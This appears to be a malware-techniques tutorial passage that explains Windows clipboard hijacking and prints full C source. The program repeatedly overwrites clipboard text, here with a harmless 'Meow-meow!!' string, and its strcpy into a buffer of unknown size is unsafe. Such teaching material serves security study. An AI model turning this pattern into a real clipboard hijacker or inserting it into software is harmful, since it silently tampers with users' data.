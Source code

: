 Let's dive right into it.     

### practical example 1

The first example (`hack.c`) demonstrates how we can hijack the clipboard content in a Windows environment using C and WinAPI.     

what we need:     
`OpenClipboard` - the function opens the clipboard for access.     
`IsClipboardFormatAvailable` - checks if there is any text in the clipboard.     
`GetClipboardData` - retrieves the clipboard data.     
`strcpy` - for replaces the clipboard text with "Meow-meow!!"      
`SetClipboardData` - updates the clipboard with the new data.     
`GlobalLock/GlobalUnlock` - locks and unlocks the data for safe manipulation.      

So, full source code for first example looks like this:     

```cpp
/*
 * hack.c
 * simple clipboard hijacking
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2025/05/10/malware-tricks-47.html
 */
#include <windows.h>
#include <stdio.h>

void hijackClipboard() {
  if (OpenClipboard(NULL)) {
    // check if there is text data in the buf
    if (IsClipboardFormatAvailable(CF_TEXT)) {
      HANDLE hData = GetClipboardData(CF_TEXT);  // get
      if (hData != NULL) {
        // lock access to the buffer data
        char *data = (char *)GlobalLock(hData);
        if (data != NULL) {
          // replace with "Meow-meow!!"
          strcpy(data, "Meow-meow!!");
          EmptyClipboard();
          SetClipboardData(CF_TEXT, hData);
          GlobalUnlock(hData);
        }
      }
    }
    CloseClipboard();
  }
}


int main() {
  while (1) {
    // wait until the clipboard is available
    hijackClipboard();

    // 10 sec pause - to avoid high CPU usage
    Sleep(10000);
  }

  return 0;
}
```
